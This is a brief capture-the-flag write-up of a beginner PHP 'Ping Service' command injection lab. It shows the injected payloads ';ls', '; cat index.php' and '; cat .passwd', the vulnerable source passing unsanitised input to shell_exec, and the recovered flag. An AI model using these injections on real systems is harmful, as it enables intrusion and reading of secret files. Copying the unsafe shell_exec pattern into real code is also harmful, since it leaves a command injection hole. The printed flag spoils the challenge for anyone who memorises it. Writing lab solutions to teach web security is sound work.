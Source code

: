 # PHP-command injection

- This is a basic command injection as other labs for beginner to know how command injection works
- Firstly, i try to input the IP 8.8.8.8

```
PING 8.8.8.8 (8.8.8.8) 56(84) bytes of data.
64 bytes from 8.8.8.8: icmp_seq=1 ttl=117 time=2.13 ms
64 bytes from 8.8.8.8: icmp_seq=2 ttl=117 time=1.91 ms
64 bytes from 8.8.8.8: icmp_seq=3 ttl=117 time=1.95 ms

--- 8.8.8.8 ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 2003ms
rtt min/avg/max/mdev = 1.906/1.995/2.132/0.098 ms
//[?] SO it ping to 8.8.8.8 right !
```

[?] Now we know the command is ping, but how to run 2 commands on the terminal ?

- We can use ‘;’ , & , ||
- For more detail, i have writen in cmd injection of cyber jutsu course

[*] Testing time

- i use the payload: ;ls 
`index.php`
- Now we know this dir have file source code index.php:
- I want to show all contents in index.php: ; cat index.php

```
<html>
<head>
<title>Ping Service</title>
</head>
<body>
<form method="POST" action="index.php">
        <input type="text" name="ip" placeholder="127.0.0.1">
        <input type="submit">
</form>
<pre>
<?php 
//[*] var flag gets contens from . passwd right !
$flag = "".file_get_contents(".passwd")."";
if(isset($_POST["ip"]) && !empty($_POST["ip"])){
        $response = shell_exec("timeout -k 5 5 bash -c 'ping -c 3 ".$_POST["ip"]."'");
        echo $response;
}
?>
</pre>
</body>
</html>
```

- The payload: ; cat .passwd

**Final result:** S3rv1ceP1n9Sup3rS3cure
